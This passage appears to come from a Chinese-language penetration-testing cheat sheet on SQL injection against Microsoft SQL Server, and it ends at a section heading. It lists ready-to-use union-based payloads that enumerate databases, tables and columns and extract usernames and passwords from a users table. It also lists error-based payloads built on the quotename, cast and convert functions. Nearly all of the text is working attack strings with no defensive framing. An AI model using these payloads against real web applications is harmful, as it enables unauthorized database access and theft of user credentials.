 ### 5. 注入类型

#### (1). 联合注入

```sql
1. 获取当前数据库名
	id=0' union select top 1 1,2,db_name() --+	
	id=0' union select top 1 1,2,name from master.sys.databases  --+
2. 获取其他数据库名
	id=0' union select top 1 1,2,name from master.sys.databases where name not in (select top m name from master.sys.databases) --+		'#m表示除当前数据库外的其他名称
3. 获取当前表名
	id=0' union select top 1 1,2,table_name from information_schema.tables --+   '
4. 获取所有表名
	id=0' union select top 1 1,2,table_name from information_schema.tables where table_name not in(select top m table_name from information_schema.tables)  --+	'#m代表表位置
5. 获取当前列名
	id=0' union select top 1 1,2,column_name from information_schema.columns --+'	
6. 获取所有列名
	id=0' union select top 1 1,2,column_name from information_schema.columns where table_name='users' and column_name not in (select top m column_name from information_schema.columns where table_name='users') --+	'#m代表字段位置
7. 获取当前数据
	id=0' union select top 1 1,username,password from users --+		'
8. 获取所有数据
	id=0' union select top 1 1,username,password from users where username not in(select top m username from users) and password not in(select top m password from users) --+		'#m代表第几行数据
```

#### (2). 报错注入

##### a. 方式

> * 1 = 语句
> * 语句 > 0

##### b. 涉及函数

> quotename(字段)、cast(name as int)、convert(int,name)

```sql
#1. quotename函数
	id=1 and 1=(select quotename(count(name) from sys.databases where database_id=1)) --+
#2. cast函数
	id=1 and 1=(select cast(name as int) from sys.databases where database_id=1) --+
#3. convert函数
    id=1 and 1=(select convert(int,name) from sys.databases where database_id=1) --+
```



##### c. 注入流程

###### ①获取数据库信息
